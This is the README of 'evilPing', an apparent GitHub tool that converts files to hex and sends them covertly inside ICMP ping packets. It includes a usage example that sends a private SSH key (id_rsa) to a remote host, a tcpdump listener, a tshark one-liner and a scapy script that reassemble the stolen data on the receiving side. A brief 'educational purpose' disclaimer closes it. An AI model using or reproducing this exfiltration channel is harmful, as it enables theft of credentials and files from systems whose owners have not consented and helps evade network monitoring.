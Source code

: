 # evilPing
Sending file through ICMP packet using PING

This tools will convert the data into hexadecimal and send through ICMP packet in each block. if the connection not stable or any packet failed to send, the script will retry sending the failed data first before go to the next block data

![Example Running](img/test.png)


### Usage
```
Usage: ./evilPing.sh <file> <host>
```
Example
```
./evilPing.sh id_rsa 192.168.1.2
```

### Listening server for receiving ICMP packet using TCPdump
```
sudo tcpdump -i any -s 0 'icmp' -w evilPing-received.pcap
```

### Extract data with tshark
```
tshark -r evilPing-received.pcap -T fields -e data -Y ip.src==192.168.1.1 -Y icmp.type==8 | cut -c 17-48 | xxd -r -p
```

### Extract data with scapy
```
#!/usr/bin/env python3

from scapy.all import *

src_ip = '192.168.56.1'
packet = rdpcap('evilPing-received.pcap')
data = b''

for pkt in packet:
    if pkt[IP].src == src_ip and pkt[ICMP].type == 8:
        data += pkt[Raw].load[16:32]

with open('output', 'wb') as w:
    w.write(data)
```

#### legal disclaimer
This tools is for educational purpose only. usage of evilPing for attacking targets without prior mutual consent is illegal and developers assume no liability and are not responsible for any misuse or damage caused by this program.
